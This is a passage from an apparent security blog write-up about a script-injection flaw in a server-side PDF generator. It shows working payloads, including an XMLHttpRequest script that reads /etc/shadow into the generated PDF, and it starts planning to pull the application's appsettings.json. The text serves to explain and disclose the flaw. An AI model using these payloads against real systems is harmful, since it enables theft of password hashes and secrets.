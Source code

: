 It may be the absolute path of the application.

# Trig the vulnerability

We inject some HTML code like:

``` {.wp-block-syntaxhighlighter-code .code}
<b>test</b>
```

Which seems to be interpreted:

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput2.png)

Then we try some JavaScript injection:

``` {.wp-block-syntaxhighlighter-code .code}
<script>document.write("A");</script>
```

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput3.png)

We get the \"A\" letter written. **The JavaScript is executed!**

We try to read system files using XHR (XmlHttpRequest) as mentionned in
this [link from
blog.noob.ninja](https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/):

``` {.wp-block-syntaxhighlighter-code .code}
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/shadow");
    x.send();
</script>
```

![](https://www.opencyber.com/wp-content/uploads/2021/10/testpdfoutput4.png)

This will give us the output of the /etc/shadow file telling us that the
application is running as root and then that we can leak some system
files.

# Exploitation

We know what is the vulnerability but we need to find and understand
what do we need to retrieve from the application in order to dig into
the server's sensitive files.

As we may be on a .Net Core application, we need to find what are the
default config files:

Reading the [Microsoft
documentation](https://docs.microsoft.com/fr-fr/aspnet/core/fundamentals/configuration/?view=aspnetcore-5.0),
we noticed some default configuration files including the
**appsettings.json** may be reachable from the application.
